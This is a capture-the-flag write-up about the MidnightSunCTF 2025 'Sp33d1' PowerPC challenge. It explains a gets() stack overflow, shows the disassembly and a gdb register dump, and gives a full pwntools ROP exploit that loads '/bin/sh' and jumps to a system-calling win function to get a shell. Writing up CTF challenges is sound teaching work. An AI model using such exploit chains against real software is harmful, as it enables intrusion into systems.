 +++
title = 'MidnightSunCTF 2025 - Sp33d1'
date = 2025-05-18T18:00:02-03:00
tags = ['pwn', 'ctf']
draft = false
+++


This was a speedpwn challenge. I unfortunately wasn't able to play the CTF, it
only lasted 24h and I was busy the whole saturday, some kind of shabbos you can say.


This is a powerpc ROP challenge. Below is the disassembly of the `main`
function. The vulnerability is that we have a `gets` that stores a string of
any length in a stack variable, giving us a stack buffer overflow.


```goat
> PowerPC ELF32 2's complement, big endian
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Full RELRO      No canary found   NX enabled    No PIE          N/A        N/A          2043 Symbols      N/A   0               0               sp33d1
```


```asm
stwu r1, -0x20(r1)
mflr r0
stw r0, 0x24(r1)
stw r31, 0x1c(r1)
mr r31, r1
lis r9, 0x100c
lwz r9, 0x1210(r9)          ; 0x100c0278
                            ; obj._IO_2_1_stdin_
li r6, 0                    ; size_t size
li r5, 2                    ; int mode
li r4, 0                    ; char *buf
mr r3, r9                   ; FILE*stream
bl sym.setvbuf              ; int setvbuf(FILE*stream, char *buf, int mode, size_t size)
lis r9, 0x100c
lwz r9, 0x120c(r9)          ; 0x100c0148
                            ; obj._IO_2_1_stdout_
li r6, 0                    ; size_t size
li r5, 2                    ; int mode
li r4, 0                    ; char *buf
mr r3, r9                   ; FILE*stream
bl sym.setvbuf              ; int setvbuf(FILE*stream, char *buf, int mode, size_t size)
li r3, 0x3c
bl sym.alarm
bl sym.banner
lis r9, 0x1007
addi r3, r9, 0x6f70         ; int32_t arg1
crclr cr1eq
bl sym.__printf
addi r9, r31, 8
mr r3, r9                   ; char *s
crclr cr1eq
bl sym.gets                 ; char *gets(char *s)
li r9, 0
mr r3, r9
addi r11, r31, 0x20
lwz r0, 4(r11)
mtlr r0
lwz r31, -4(r11)
mr r1, r11
blr
```


Note that at the function's epilogue we have:

- `lwz r0, 4(r11)`  <- load `r11[4]` to `r0`
- `mtlr r0` <- move `r0` to link register 
- `blr` <- branch to link register

In gdb those are the registers right at the function's epilogue. By
sending an input with `cyclic(0x100)` we can see that we control:

- R0
- R1
- R11
- R31
- LR

```asm
 R0   0x68616161 ('haaa')
*R1   0x407ff8d0 ◂— 0x67616161 ('gaaa')
 R2   0x100cc580 ◂— 0
 R3   0
 R4   0x100c02bf (_IO_2_1_stdin_+71) ◂— 0xa100c1c
 R5   1
 R6   0xa
 R7   0x100c02c0 (_IO_2_1_stdin_+72) —▸ 0x100c1c08 (_IO_stdfile_0_lock) ◂— 0
 R8   0x100c0278 (_IO_2_1_stdin_) ◂— 0xfbad208b
 R9   0
 R10  1
 R11  0x407ff8d0 ◂— 0x67616161 ('gaaa')
 R12  0x40000222 ◂— 0
 R13  0x100c91f8 ◂— 0
 R14  0
 R15  0
 R16  0
 R17  0
 R18  0
 R19  0
 R20  0
 R21  0x100c0000 —▸ 0x100c91f8 ◂— 0
 R22  0x10000634 (main) ◂— stwu r1, -0x20(r1)
 R23  0x100c12c8 (environ) —▸ 0x407ffb4c —▸ 0x407ffd09 ◂— 'DBUS_SESSION_BUS_ADDRESS=unix:path=/run/user/1000/bus'
 R24  0x10000138 (_init) ◂— stwu r1, -0x10(r1)
 R25  0x100bcdb4 —▸ 0x100c0d14 (_nl_global_locale+16) —▸ 0x100bd8b4 (_nl_C_LC_MONETARY) —▸ 0x100c1268 (_nl_C_name) ◂— 0x43000000 /* 'C' */
 R26  0x407ffb4c —▸ 0x407ffd09 ◂— 'DBUS_SESSION_BUS_ADDRESS=unix:path=/run/user/1000/bus'
 R27  0x407ffc2c ◂— 0x16
 R28  0x407ffb44 —▸ 0x407ffd00 ◂— './sp33d1'
 R29  1
 R30  0x100bfff0 (_GLOBAL_OFFSET_TABLE_) ◂— 0
 R31  0x66616161 ('faaa')
 CR   0x20000222
 CTR  0x10014b00 (_IO_file_read) ◂— stwu r1, -0x10(r1)
*SP   0x407ff8d0 ◂— 0x67616161 ('gaaa')
 LR   0x68616161 ('haaa')
*PC   0x100006c8 (main+148) ◂— blr
```

Given that, we control the execution flow and can start ROP'ing.

There a a few things that make our life easier:

- there's no PIE.
- the ELF is statically linked.
- we have the `/bin/sh` string at `0x10077a8c`
- we have the `win` function at `0x100005f8` which calls system 


The only thing we need to do is to setup the `/bin/sh` as the first argument,
and then go to `win`.

I tried using `ROPGadget` but it didn't work with the ppc ELF, even though it's
supported, instead of trying to fix it, I just tried with `ropper` and it
worked.

Most gadgets found by the tool look like this:

- 0x100716e4: add r1, r1, r10; blr; 

This is different that I'm used to do when ROP'ing, since x64 the `ret`
instruction can be used to chain our ROP. Below is the full solution:


```python

from pwn import *

context(arch='PowerPC', bits=32, endian='big')

#io = remote('sp33d.play.hfsc.tf', 20020)
#io = gdb.debug('./sp33d1', 'b main')
io = process('./sp33d1')

set_r3 = 0x100712b4 # lwz r3, 0x10(r1); lwz r0, 0x24(r1); lwz r30, 0x18(r1); addi r1, r1, 0x20; mtlr r0; blr; 

win = 0x100005f8
bin_sh = 0x10077a8c

io.sendline(flat([
    b'a' * 0x1c,
    p32(set_r3 + 2),
    p32(win + 2),
    b'b' * 4,
    p32(bin_sh),
    b'c' * 0x10,
    p32(win),
]))

io.interactive()
```
